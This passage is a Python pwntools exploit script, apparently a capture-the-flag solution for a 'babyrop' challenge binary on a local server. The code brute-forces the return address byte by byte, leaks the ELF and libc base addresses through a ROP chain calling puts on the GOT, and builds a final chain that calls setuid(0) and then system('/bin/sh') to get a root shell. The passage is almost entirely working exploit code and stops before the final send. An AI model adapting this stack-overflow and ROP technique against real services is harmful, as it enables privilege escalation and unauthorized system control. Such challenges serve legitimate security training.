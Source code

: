 ```python
    while len(ret) < 0x6:
        for byte in range(0,0x100):
            r = remote("127.0.0.1",1337)
            payload = b"A"*canary_offset  + canary + b"A"*8 + ret + p8(byte)
            r.send(payload)
            res = r.recvall(timeout=3)
            r.close()
            if b"### Goodbye!" in res:
                ret += p8(byte)
                break
    return ret

def leak_base(canary, ret):
    offset_main = 0x1afe  # from symbol main+457
    offset__libc_start_main = 0x23f90 

    elfbase = u64(ret.ljust(8,b"\x00")) - offset_main 
    elf = context.binary = ELF("/challenge/babyrop_level14.1")
    elf.address = elfbase
    rop = ROP(elf)

    log.success(f"ELF Base: {hex(elfbase)}.")

    payload = flat(
        b"A"*canary_offset,
        canary,
        b"B"*8,
        rop.rdi.address,
        elf.got['__libc_start_main'],
        elf.symbols['puts']
    )

    while True:
        r = remote("127.0.0.1",1337)
        r.send(payload)
        res = r.recvall(timeout=2)

        if (b"Leaving!" in res) and (b"*** stack" not in res):
            leak = res.strip().split(b"\n")[1]
            libcbase = u64(leak.ljust(8,b"\x00")) - offset__libc_start_main 
            log.success(f"libc base: {hex(libcbase)}.")
            return libcbase

def send_payload(canary, libcbase):
    lib = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    lib.address = libcbase
    rop = ROP(lib)

    payload = flat(
        b"A"*canary_offset,
        canary,
        b"B"*8,

        rop.ret.address,
        rop.rdi.address,
        0,
        lib.symbols['setuid'],

        rop.ret.address,
        rop.rdi.address,
        next(lib.search(b"/bin/sh\x00")),
        lib.symbols["system"]
    )
```